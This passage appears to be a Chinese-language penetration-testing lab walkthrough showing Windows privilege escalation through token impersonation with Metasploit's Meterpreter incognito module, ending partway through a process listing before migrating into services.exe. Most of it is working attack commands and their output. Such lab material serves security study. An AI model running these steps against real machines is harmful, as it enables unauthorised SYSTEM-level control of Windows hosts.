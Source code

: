    ```
      SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
      SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
      SeUndockPrivilege               Remove computer from docking station      Disabled
      SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
      SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
      SeCreateGlobalPrivilege         Create global objects                     Enabled 
      ···
      ```
   + 可以看到目标机启用了两个关键权限（SeDebugPrivilege、SeImpersonatePrivilege），这两个权限能够让我们使用MSF中的模块来进行令牌模拟操作，我们退出之前的普通shell界面（exit即可），在Meterpreter shell界面加载MSF中的incognito模块（使用命令load incognito）,如果相关命令不起作用，可以尝试更新MSF或者先使用use incognito命令。（incognito英译：隐身）

      ```
      meterpreter > load incognito
      Loading extension incognito...Success.
      ```

   + 模块加载完成之后 输入list_tokens -g命令检查哪些令牌可用，我们发现BUILTIN\Administrators令牌可用，所以我们可以模拟管理员令牌，模拟完成后，再运行getuid命令，可以看到此时我们的uid已经变更为SYSTEM的uid，说明模拟令牌成功。

      ```
      meterpreter > list_tokens -g
      [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                  Call rev2self if primary process token is SYSTEM

      Delegation Tokens Available
      ========================================
      \
      BUILTIN\Administrators
      BUILTIN\IIS_IUSRS
      BUILTIN\Users
      ···
      meterpreter > impersonate_token "BUILTIN\Administrators"
      [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                  Call rev2self if primary process token is SYSTEM
      [+] Delegation token available
      [+] Successfully impersonated user NT AUTHORITY\SYSTEM

      meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
      ```
   + 即使现在拥有更高特权的令牌（token），实际上也可能没有对应的特权用户的权限（由于 Windows 处理权限的方式 - Windows会使用主令牌而不是模拟令牌来确定某个进程的权限分配情况）；所以还需要迁移到具有正确权限的进程，可以选择迁移到最安全的services.exe进程。
   
      + 首先使用ps命令查看所有进程，找到services.exe进程的PID，然后使用migrate PID-OF-PROCESS迁移到目标进程：

      ```
      meterpreter > ps

      Process List
      ============

      PID   PPID  Name                  Arch  Session  User                          Path
      ---   ----  ----                  ----  -------  ----                          ----
      0     0     [System Process]
      4     0     System                x64   0
      396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
      524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
      572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
   ```